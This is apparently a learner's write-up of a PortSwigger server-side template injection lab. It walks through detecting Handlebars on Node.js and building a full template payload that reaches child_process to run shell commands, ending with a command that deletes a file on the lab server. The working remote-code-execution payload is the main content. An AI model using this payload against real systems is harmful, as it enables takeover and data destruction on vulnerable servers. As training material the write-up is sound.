 ### Server side template injection (SSTI)
#### Intro
Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.<br>
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. 
#### Lab
<i>Please note that my Lab ID will change during the explanation</i><br>
To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

So let's try to find an injection point, viewing the details of the first item we can see that the message query string parameter is reflected into the page:
<br>![img](./img/72.png)<br>
We can eventually try to test for XSS, but as we can see it is not vulnerable (at least not to a simple attack)
<br>![img](./img/74.png)<br>
anyway knowing that this is not the aim of the lab, we can move forward to test for a simple SSTI payload:
```
{{7*7}}
```
Then we get an error response that indicates that the application could be vulnerable, here we get two interesting information: A module called <b>handlebars</b> is used and the coding language seems to be <b>Node.js</b>. 
<br>![img](./img/73.png)<br>
Since I have a very little knowledge about Node.js and nothing about Handlebars I have no idea how to proceed further 🤨. Googling for 'ssti handlebars node.js' returned some interesting results, among all I found this one: http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html<br>
Telling the truth I had problem to clearly understand what <b>Mahmoud Gamal</b> actually did 😬, so I had to study quite a bit the handlebars library and Node.js.
So I ended up to code the following payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('pwd');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
Here the real exploit is the instruction:<br><b>return require('child_process').exec('id');</b><br>
That is the way to execute shell command in Node.js: https://nodejs.org/api/child_process.html<br>
The problem with this payload is that we don't get the command ouptut into the web page, since the exec method is asynchronous and we need and handler to return the command output:
<br>![img](./img/75.png)<br>
I struggled quite a lot to find a way to print the output command into the response, finally I discovered that I can use the <b>execSync</b> method to execute the command synchronous, so I modified the payload as follows:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
This time we get the output printed into the response 😃
<br>![img](./img/76.png)<br>
To delete the morale.txt file just change the command string as follows:
```
return require('child_process').execSync('rm morale.txt').toString();
```
we can double check that the file has been deleted resending the previous payload to list the files.


#### Reference
+ https://portswigger.net/web-security/server-side-template-injection
+ https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
